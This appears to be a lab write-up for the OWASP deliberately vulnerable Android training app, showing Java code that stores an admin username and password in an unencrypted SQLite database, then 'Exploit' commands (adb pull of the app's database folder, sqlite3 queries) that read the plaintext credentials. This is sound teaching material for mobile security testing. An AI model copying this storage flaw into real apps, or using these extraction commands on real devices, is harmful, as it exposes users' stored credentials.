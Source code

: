 ## OMTG-DATAST-001-SQLITE

> app/src/main/java/sg/vp/owasp_mobile/OMTG_Android/OMTG_DATAST_001_SQLite_Not_Encrypted.java

```java
SQLiteDatabase openOrCreateDatabase = openOrCreateDatabase("privateNotSoSecure", 0, null);

openOrCreateDatabase.execSQL("CREATE TABLE IF NOT EXISTS Accounts(Username VARCHAR,Password VARCHAR);");
openOrCreateDatabase.execSQL("INSERT INTO Accounts VALUES('admin','AdminPass');");

openOrCreateDatabase.close();
```

Exploit:

- `adb pull /data/data/sg.vp.owasp_mobile.omtg_android/databases/`

- `$ sqlite3 privateNotSoSecure`

- `sqlite> select * from sqlite_master;`

```
table|android_metadata|android_metadata|3|CREATE TABLE android_metadata (locale TEXT)
table|Accounts|Accounts|4|CREATE TABLE Accounts(Username VARCHAR,Password VARCHAR)
```

- `sqlite> select * from Accounts;`

```
admin|AdminPass
```
